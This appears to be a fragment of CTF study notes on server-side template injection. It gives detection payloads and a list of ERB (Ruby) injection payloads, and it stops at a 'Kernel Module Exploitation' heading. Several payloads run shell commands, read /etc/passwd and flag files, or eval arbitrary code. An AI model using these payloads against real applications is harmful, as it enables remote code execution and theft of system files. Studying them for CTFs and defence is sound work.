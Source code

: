 ![[diagram.webp]]

 the payload `{{7*'7'}}`the result will be `7777777`, while in Twig, the result will be `49`.
# All-in-One Error Command
```
	${{<%[%'"}}%\
```
# ERB - Ruby Template
SSTI (Server-Side Template Injection) on ERB (Embedded Ruby) is a common vulnerability in Ruby web applications. Here's how you can approach this in a CTF challenge:

## Understanding ERB SSTI

ERB (Embedded Ruby) is a templating system that embeds Ruby code in a document. When vulnerable to SSTI, you can execute arbitrary Ruby code.

## Common ERB SSTI Payloads

1. **Basic Testing**:
    
    ```
    <%= 7 * 7 %>
    ```
    
    If this returns 49, the application is vulnerable to SSTI.
    
2. **System Commands**:
    
    ```
    <%= `ls -la` %>
    <%= system('cat /etc/passwd') %>
    <%= IO.popen('id').read %>
    ```
    
3. **Ruby Code Execution**:
    
    ```
    <%= eval('puts File.read("/flag.txt")') %>
    <%= File.open('/flag.txt').read %>
    <%= Dir.entries('/') %>
    ```
    
4. **Ruby Object Methods to Enumerate Classes**:
    
    ```
    <%= Object.methods %>
    <%= self.class.ancestors %>
    <%= ObjectSpace.each_object(Class).to_a %>
    ```
    
5. **Kernel Module Exploitation**:
    